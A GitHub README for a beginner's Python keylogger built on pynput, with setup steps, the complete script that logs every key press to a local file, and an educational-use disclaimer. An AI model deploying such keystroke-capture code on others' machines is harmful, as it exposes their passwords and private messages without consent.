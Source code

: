 # Simple Keylogger

## Description
This is a simple keylogger project developed in Python using the `pynput` library. The keylogger captures and logs key press events to a text file (`log.txt`).

## Prerequisites
- Python 3.x
- `pynput` library

## Installation

1. Clone the repository or download the source code.
2. Install the `pynput` library using pip:
    ```sh
    pip install pynput
    ```

## Usage

1. Run the `keylogger.py` script:
    ```sh
    python keylogger.py
    ```
2. The script will start logging key presses to the `log.txt` file in the same directory.

## Code Explanation

The keylogger script consists of the following parts:

1. **Imports**:
    ```python
    from pynput import keyboard
    ```

2. **Print statement to indicate the start of the keylogger**:
    ```python
    print("Simple Keylogger")
    ```

3. **Function to handle key press events**:
    ```python
    def on_press(key):
        print(f'Pressed: {key}')
        with open("log.txt", "a") as keylog:
            try:
                keylog.write(f'{key}\n')
            except:
                print("Error writing to keylog file.")
    ```

4. **Main block to start the keylogger**:
    ```python
    if __name__ == '__main__':
        keyboard_listener = keyboard.Listener(on_press=on_press)
        keyboard_listener.start()
        input()
    ```

### Key Press Event Handling
The `on_press` function is called whenever a key is pressed. It prints the key to the console and appends it to the `log.txt` file.

### Running the Keylogger
The keylogger starts by creating a `Listener` object from the `pynput.keyboard` module and setting its `on_press` parameter to the `on_press` function. The listener is then started, and the script waits for user input to keep running.

## Notes
- This project is for educational purposes only. Unauthorized use of a keylogger is illegal and unethical.
- Always obtain explicit permission before running a keylogger on any system that you do not own.

## Contributing
Feel free to fork the repository, submit issues, and send pull requests.

## License
This project is licensed under the MIT License. See the LICENSE file for more details.

## Contact
For any questions or suggestions, please contact [Sourabh Panchal](mailto:sourabh.panchal28@gmail.com).